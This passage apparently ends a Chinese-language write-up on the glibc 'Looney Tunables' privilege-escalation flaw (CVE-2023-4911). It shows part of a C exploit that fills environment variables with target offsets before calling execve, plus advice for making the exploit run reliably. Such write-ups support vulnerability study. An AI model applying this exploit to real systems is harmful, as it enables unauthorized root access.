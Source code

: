 ```c
    // &l_info[29] 0x7ffff7fbbd68
    envp[0x190-1] = TRY_HIT;

    for (int i = 0; i < 0x20; i++) {
        envp[0xf80 + i] = (char *)evil_offset;
    }
    envp[0xff2] = "aaaa"; // paddings so that offset would be aligned

    success("envp done");

    log(envp);
    // getchar();
    info("execve");
    if (execve(argv[0], argv, envp) < 0) {
        perror("execve");
    }

    return 0;
}
```

为了能稳定利用，增大 SPARY_SIZE 到 0x20000 即可（`$ARG_MAX`），在比赛中已经有了提权成功的情况，平均 1000 次以内就能成功，还是非常稳定迅速的。

![[static/CVE20234911-res.jpg]]

---

## References

\[1\] [Looney Tunables: Local Privilege Escalation in the glibc's ld.so](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt) . _Qualys_

\[2\] [CVE-2023-4911 - Looney Tunables](https://github.com/RickdeJager/CVE-2023-4911) . _RickdeJager_

\[3\] [PoC of CVE-2023-4911 "Looney Tunables"](https://github.com/leesh3288/CVE-2023-4911) . _leesh3288_
